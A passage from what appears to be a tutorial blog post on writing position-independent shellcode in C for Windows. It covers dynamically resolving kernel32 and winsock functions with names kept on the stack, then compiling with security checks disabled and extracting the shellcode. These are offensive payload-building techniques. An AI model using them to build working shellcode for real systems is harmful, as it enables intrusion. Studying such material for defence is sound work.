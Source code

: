
With the ability to load modules and call functions from them, we have everything we need. Let's go back to our main function and load what we need:

```c
    //get library and function addresses and resolve them dynamically
    wchar_t kernel32dll[] = { 'k', 'e', 'r', 'n', 'e', 'l', '3', '2', '.', 'd', 'l', 'l', '\0' };
    LPVOID kernel32dll_base = getModule(kernel32dll);

    char get_proc_addr[] = { 'G', 'e', 't', 'P', 'r', 'o', 'c', 'A', 'd', 'd', 'r', 'e', 's', 's', '\0' };
    LPVOID getprocaddress_addr = getFunc(kernel32dll_base, get_proc_addr);

    char load_library[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'A', '\0' };
    LPVOID loadlibrarya_addr = getFunc(kernel32dll_base, load_library);

    HMODULE(WINAPI * _LoadLibraryA)(LPCSTR lpLibFileName) = (HMODULE(WINAPI*)(LPCSTR))loadlibrarya_addr;
    FARPROC(WINAPI * _GetProcAddress)(HMODULE hModule, LPCSTR lpProcName) = (FARPROC(WINAPI*)(HMODULE, LPCSTR))getprocaddress_addr;
```

We write things `{'l','i','k','e',' ','t','h','i','s'}` to make sure the names are stored on the stack, rather than in a data segment when it comes time to assemble our code. All that's left to do now is replace our function calls to the winsock functions with their equivalents:

```c
    char ws2_32dll[] = { 'w', 's', '2', '_', '3', '2', '.', 'd', 'l', 'l', '\0' };
    LPVOID ws2_32dll_base = _LoadLibraryA(ws2_32dll);
    <snip>
        char wsastartup[] = { 'W', 'S', 'A', 'S', 't', 'a', 'r', 't', 'u', 'p', '\0' };
    int(WINAPI * _WSAStartup)(WORD wVersionRequired, LPWSADATA lpWSAData);
    _WSAStartup = (int(WINAPI*)(WORD wVersionRequired, LPWSADATA lpWSAData)) _GetProcAddress((HMODULE)ws2_32dll_base, wsastartup);
    <snip>
```

(full code available on my [github](https://github.com/cattl3ya/pic-shellcode-example))

***
**Compiling and Extracting**

With the position independent code completed, the last steps are:
1. Compile to assembly
2. Remove unneccessary segments 
3. Link to an executable
4. Extract the shellcode.

We will call the MSVC compiler with the flags `/c` to compile without linking, `/FA` to generate a listing file with assembler code, and `/GS-` to disable buffer overrun security checks. 

After the assembly listing is created, we need to edit it to
1. Remove the INCLUDELIB instructions
2. Remove the xdata/pdata segments
3. Add in code to ensure stack alignment
4. Add a derefencing operator to the instruction where we read from the GS register
